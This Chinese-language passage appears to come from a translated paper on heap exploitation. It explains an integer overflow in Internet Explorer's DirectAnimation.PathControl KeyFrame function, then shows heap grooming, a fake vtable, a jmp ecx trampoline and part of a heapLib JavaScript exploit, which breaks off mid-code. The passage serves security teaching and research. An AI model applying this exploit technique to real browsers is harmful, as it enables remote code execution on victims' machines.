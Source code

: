 `KeyFrame` 函数将 `npoints` 参数分别乘以 16、8 和 4，并分配 4 个缓冲区。如果 `npoints` 大于 `0x40000000`，用于分配的大小参数将发生溢出，这个函数将分配到 4 个小缓冲区。在我们的漏洞利用程序中，`npoints` 被置为 `0x40000801`，因此该函数将分配到大小分别为 `0x8010`、`0x4008` 和两个大小为 `0x200c` 的缓冲区。我们要保证最小的缓冲区大小大于 `0x2000` 字节，因为再小的话，分配的内存将来自 `CMemManager` 堆而非系统内存分配器。

分配缓冲区后，这个函数调用 `CSafeArrayOfDoublesAccessor::ToDoubleArray()` 来初始化数组访问器对象。如果 `KeyFrameArray` 的大小小于 `npoints`，`ToDoubleArray` 将返回 `E_INVALIDARG`。`cleanup` 部分的代码将执行，它将遍历这两个 `0x2004` 字节的缓冲区并对每一个非空元素调用一个虚函数。

这些缓冲区在分配时带有 `HEAP_ZERO_MEMORY` 标志，仅仅包含 `NULL` 指针。然而，上面的代码将从 0 遍历到 `npoints`（也就是 `0x40000801`），并继续直到越过缓冲区界限 `0x200c` 访问到外面的数据。如果我们控制了 `KeyFrameArray.field_C` 缓冲区外的第一个四字，我们就可以将它指向一个伪造对象，这个伪造对象的虚表则包含指向 shellcode 的指针。虚函数 `func_8()` 的调用将执行我们的 shellcode。

### 8.3 实施攻击

为了利用这个漏洞，我们需要控制 `0x200c` 字节的缓冲区外的第一个四字。首先，我们要使用 `0x2010` 大小的块来清除堆碎片（内存分配器分配的内存是 8 的整数倍，因此 `0x200c` 向上取整为 `0x2010`）。然后我们分配两个 `0x2020` 字节的内存块，在偏移 `0x200c` 处写入伪造的对象指针，接着将它们释放到空表中。

当 `KeyFrame` 函数分配两个 `0x200c` 字节的缓冲区时，内存分配器将重用我们的 `0x2020` 字节块，并仅仅将前 `0x200c` 字节置零。`KeyFrame` 函数最后扫尾的循环体将遇到偏移 `0x200c` 处的伪造对象指针，接着会通过它的虚表调用函数。伪造对象指针指向 `0x151e58`，它正是维护大小为 `1008` 字节内存块的快表链表头的地址。链表中唯一的项就是我们伪造的虚表。

调用虚函数的代码段如下：

```assembly
.text:100071E4          mov     eax, [eax]      ; object pointer
.text:100071E6          mov     ecx, [eax]      ; vtable
.text:100071E8          push    eax
.text:100071E9          call    dword ptr [ecx+8]
```

虚函数调用通过 `ecx+8` 实现，它将控制流转向一个 `IEXPLORER.EXE` 中的 `jmp ecx` 跳板。控制流接着会转向虚表的开头并执行 shellcode。上一节讲述了更多关于虚表的详细信息。

完整的漏洞利用代码如下：

```js
// 创建 ActiveX 对象
var target = new ActiveXObject("DirectAnimation.PathControl");

// 初始化堆库
var heap = new heapLib.ie();

// int3 shellcode
var shellcode = unescape("%uCCCC");

// IEXPLORE.EXE 中的 jmp ecx 跳板地址 
var jmpecx = 0x4058b5;

// 创建指向 shellcode 的伪造虚表
var vtable = heap.vtable(shellcode, jmpecx);

// 获取将要指向伪造虚表的快表地址
var fakeObjPtr = heap.lookasideAddr(vtable);

// 创建包含伪造对象地址的堆块
//
// len      padding         fake obj pointer  padding   null
// 4 bytes  0x200C-4 bytes  4 bytes           14 bytes  2 bytes
var fakeObjChunk = heap.padding((0x200c-4)/2) + heap.addr(fakeObjPtr) + heap.padding(14/2);

heap.gc();
heap.debugHeap(true);

// 清空快表
heap.debug("Emptying the lookaside")
for (var i = 0; i < 100; i++)
    heap.alloc(vtable)

```
